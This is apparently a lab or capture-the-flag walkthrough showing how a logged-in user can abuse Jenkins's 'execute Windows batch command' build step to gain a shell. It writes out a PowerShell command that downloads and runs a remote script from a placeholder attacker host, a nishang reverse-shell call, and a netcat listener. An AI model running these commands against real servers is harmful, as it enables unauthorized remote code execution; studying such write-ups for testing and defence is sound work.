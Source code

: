 After logging into jenkins we can exploit the Build Project function see here:

https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#create-a-new-project

---

After creating a project, we can have it execute Windows batch command
Build > execute windows batch command. We give it the following command:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://ATTACKIP:ATTACK-HTTP-SERV-PORT/Invoke-PowerShellTcp.ps1')
```

---

We also download the script from here:

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

We append this to the end of the script:
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

--- 
We serve up the `Invoke-PowerShellTcp.ps1` file on a http server and open a netcat listener `nc -lvnp 4444`

We then build the project on Jenkins and this will execute the exploit and send a shell to our nc listener.